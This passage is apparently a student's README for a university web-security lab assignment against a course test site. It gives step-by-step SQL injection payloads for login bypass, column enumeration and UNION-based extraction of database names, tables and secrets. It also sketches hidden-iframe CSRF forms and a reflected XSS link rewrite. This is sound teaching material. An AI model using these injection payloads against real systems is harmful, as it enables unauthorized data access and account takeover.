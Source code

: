 # MP2 - WebSec

Web Security

## Project Setup
1. Download VMWare.
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6).
3. Set up the VM in VMWare.

## Build Project
None

## Implementation
### 2.2.1.1
Type the following command in `Username`.
```
victim
```
Type the following command in `Password`.
```
' OR 1=1 -- 
```
### 2.2.1.2
Type the following command in `Username`.
```
victim
```
Type the following command in `Password`.
```
\' OR 1=1 -- 
```
### 2.2.1.3
Write a python script to mine `md5` hash.

Type the following command to run the python script `2.2.1.3.py`.
```
./2.2.1.3.py
```
The `passwd` got from the python script are
- `61873882145751551400929987756087961` [35-digit]
- `1107388038190758764683658965752877062` [37-digit]


### 2.2.1.4
1. Figure out how many columns there are in the table with the following command.
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the 
table.

2. Use the following command to get the `Database Name`.
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

3. Use the following command to get the `Database Version`.
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command.
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

4. Use the following command to get all `Table` in the Database.
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

5. Use the following command to get all `Column` in Table `HINT`.
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_.

Use the following command to get `message` from Table `HINT` with `id=1`.
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a 
secret string from row with your md5(netid)_.

Use the following command to get all `Column` in Table `SECRET`.
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_.

Use the following command to get `md5(netid)`.
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the 
`hash=md5(netid)`.
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

### 2.2.2.1
Create &lt;iframe&gt; that displays nothing.

&lt;form&gt; `action`=http://bungle-cs461.csl.illinois.edu/login

Log in with following information:
- `csrfdefense`=0
- `xssdefense`=5
- `username`=attacker
- `password`=l33th4x

### 2.2.2.2
Create &lt;iframe&gt; that displays nothing.

Go to original [`Bungle` website](http://bungle-cs461.csl.illinois.edu/).

Right click on search window, and click `Inspect Element`.

- The `name`=q

Right click on either `username` or `password` window, and click 
`Inspect Element`.

- &lt;input type="hidden" name="csrf_token" value="9165db97e970e7d9facd256db1fdf2f8"&gt;

Submit 2 HTML &lt;form&gt; with function `submitForm()`.
- Both of them use `target`=ifrm.
- The first form use `action`=http://bungle-cs461.csl.illinois.edu/search.
- The second form use `action`=http://bungle-cs461.csl.illinois.edu/login.

### 2.2.3.1
Go to Website [here](http://bungle-cs461.csl.illinois.edu/multivac/?name=INSERT%20ATTACK%20HERE).

Right-click on the hyperlink `Click me` and click `Inspect Element`.

- &lt;a href="http://cs.illinois.edu/"&gt;Click me&lt;/a&gt;

Use the function `getElementsByTagName` to search for the first `a` and replace 
its `href` with the following.

- http://ece.illinois.edu/

### 2.2.3.2
